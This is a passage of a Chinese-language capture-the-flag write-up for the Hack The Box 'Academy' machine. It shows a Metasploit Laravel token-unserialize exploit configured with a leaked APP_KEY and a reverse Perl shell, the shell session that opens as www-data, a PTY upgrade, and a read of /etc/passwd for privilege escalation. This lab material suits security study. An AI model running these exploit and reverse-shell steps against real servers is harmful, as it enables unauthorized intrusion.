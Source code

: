 msfconsole 有一个利用 Laravel 令牌非序列化攻击的 POC。

```
msf5 exploit(unix/http/laravel_token_unserialize_exec) > optionsModule options (exploit/unix/http/laravel_token_unserialize_exec):Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    **dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=**  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     **10.10.10.215**                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      **80**                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      **dev-staging-01.academy.htb**                                                    no        HTTP server virtual hostPayload options (cmd/unix/reverse_perl):Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.25      yes       The listen address (an interface may be specified)
   LPORT  9001             yes       The listen portExploit target:Id  Name
   --  ----
   0   Automatic
```

它工作了，我能够访问到`www-data`用户。

```
msf5 exploit(unix/http/laravel_token_unserialize_exec) > run[*] Started reverse TCP handler on 10.10.14.25:9001 
[*] Command shell session 1 opened (10.10.14.25:9001 -> 10.10.10.215:51848) at 2020-11-10 22:41:49 -0500**id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@academy:/var/www/html/htb-academy-dev-01/public$**
```

# **权限提升**

通过查看`/etc/passwd`，我注意到这个框中有多个用户。

```
$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash...snip...mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
```
